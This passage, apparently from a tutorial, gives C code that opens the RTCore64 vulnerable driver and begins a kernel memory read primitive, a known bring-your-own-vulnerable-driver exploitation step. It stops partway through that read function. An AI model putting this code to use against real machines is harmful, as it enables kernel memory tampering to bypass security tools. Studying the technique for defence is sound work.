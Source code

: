 ```c
HANDLE hDevice = NULL;
WCHAR* DevicePath = NULL;

BOOL OpenRTCoreDevice() {
	// Allocate memory which will hold the device path
	DevicePath = (LPWSTR)malloc((MAX_PATH + 1) * sizeof(WCHAR));
	if (DevicePath == NULL) {
		PRINT_ERROR(L"[-] Error: Couldn't allocate memory!\r\n");
		return FALSE;
	}

	// Set DevicePath to \\.\RTCore64
	swprintf_s(DevicePath, MAX_PATH, L"\\\\.\\%ws", RTC64_DEVICE_NAME_W);

	// Open handle to the device with RW access
	hDevice = CreateFileW(
		DevicePath, 
		GENERIC_READ | GENERIC_WRITE, 
		0, 
		NULL, 
		OPEN_EXISTING, 
		0, 
		NULL);
	if (hDevice == INVALID_HANDLE_VALUE) {
		PRINT_ERROR(L"[-] Error: CreateFileW error code 0x%08x\r\n", GetLastError());
		return FALSE;
	}

	return TRUE;
}

// Function for cleanup
void CloseRTCoreDevice() {
	if (DevicePath) {
		free(DevicePath);
	}
	if (hDevice) {
		CloseHandle(hDevice);
	}
}
```

Following that, we define the primitive functions for reading and writing. Let's start with the function for reading:  

```c
BOOL RTCoreReadMemory(ULONG_PTR Address, DWORD ValueSize, PDWORD Value) {
	// create the structure which will be passed to the driver in the input buffer
	RTC64_MEMORY_STRUCT memory_read;
	// initialize the structure to all zeroes
	ZeroMemory(&memory_read, sizeof(memory_read));

	// set the target address to read from
	memory_read.Address = Address;
	// set how much data to read
	memory_read.Size = ValueSize;
	
	// the offset is not used, so it will be zero

	if (!hDevice) {
		PRINT_ERROR(L"[-] Device not opened!\r\n");
		return FALSE;
	}

```